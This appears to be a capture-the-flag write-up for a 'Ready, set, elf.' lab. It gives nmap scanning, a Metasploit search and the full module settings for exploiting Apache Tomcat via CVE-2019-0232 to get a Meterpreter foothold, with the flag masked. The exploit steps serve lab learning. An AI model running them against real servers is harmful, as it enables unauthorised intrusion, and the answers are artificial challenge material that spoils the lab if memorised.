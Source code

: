 # Ready, set, elf.


- What is the version number of the web server?

	- `nmap -sV <TARGET_IP>` (Remember, if it says "host seems down", use `-Pn`, look for what it means)
	- `9.0.17`

- What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

	- `msfconsole`
	- `search tomcat 9`
	- It outputs `exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10`. googling then...
	- `CVE-2019-0232`

- Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

	  no answer needed

	- after search, It should outputs only one exploit, anyway use `use 0` if the output is only one, or the appropriate number
	- `set RHOSTS <TARGET_IP>`
	- `set RPORT 8080`
	- `set LHOST <YOUR_IP>`
	- `set targeturi /cgi-bin/elfwhacker.bat`
	- `run` or `exploit`

- What are the contents of flag1.txt?

	- `cat flag1.txt`
	- `thm{********_***_***_*****}`

- Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

	  no answer needed




